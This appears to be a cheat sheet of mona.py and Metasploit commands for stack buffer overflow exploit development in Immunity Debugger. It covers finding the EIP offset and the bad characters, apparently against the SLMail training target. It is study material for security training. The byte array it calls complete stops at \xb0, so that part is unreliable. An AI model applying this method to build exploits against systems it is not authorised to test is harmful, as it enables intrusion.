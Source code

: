 * Installing and configuring `mona.py`
```sh
# first, drop mona.py in the PyCommands folder of your Immunity Debugger application folder

# check for valid installation
!mona

# configure logging output
!mona config -set workingfolder c:\logs\%p
```

* Finding EIP offset
```sh
# generate a unique sequence; two alternative methods shown
msf-pattern_create -l <numbytes>
!mona pc <numbytes>

# identify the byte offset from the 4-byte address that overwrites EIP; three alternative methods shown
# msf-pattern_offset accepts either the raw register contents (8 numeric digits) or the byte string
# equivalent (4 hex digits)
msf-pattern_offset <4bytes>
!mona pattern_offset <4bytes>
!mona findmsp

# in mona output, look for EIP offset and length of ESP (which gives you the possible max size of your payload)
```

* Determining bad characters in our running application (common ones include null `0x00`, lf `0x0a`, and cr `0x0d`)
```sh
# begin by generating a byte array of all possible characters; we will funnel these through the
# vulnerable buffer in our vulnerable application and see which ones are "rejected" (i.e., altered
# in the memory dump)
!mona bytearray

# enumerate over bad characters and compare the output files to what is in-memory; we continue this
# until we see "unmodified" status in the output
# <startaddr> will be the address at which mona begins the search for the character sequence in memory,
# you probably want this to be the address pointed to by ESP if that buffer will hold your shellcode
# your exploit must be updated with changes in the byte sequence, too
!mona compare -f c:\logs\slmail\bytearray.bin -a 0x<startaddr>
!mona bytearray -cpb \x00
!mona compare -f c:\logs\slmail\bytearray.bin -a 0x<startaddr>
!mona bytearray -cpb \x00\x0a
!mona compare -f c:\logs\slmail\bytearray.bin -a 0x<startaddr>
!mona bytearray -cpb \x00\x0a\x0d
!mona compare -f c:\logs\slmail\bytearray.bin -a 0x<startaddr>
...

# you can also do this manually via Python or C; the complete byte sequence is shown below
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
```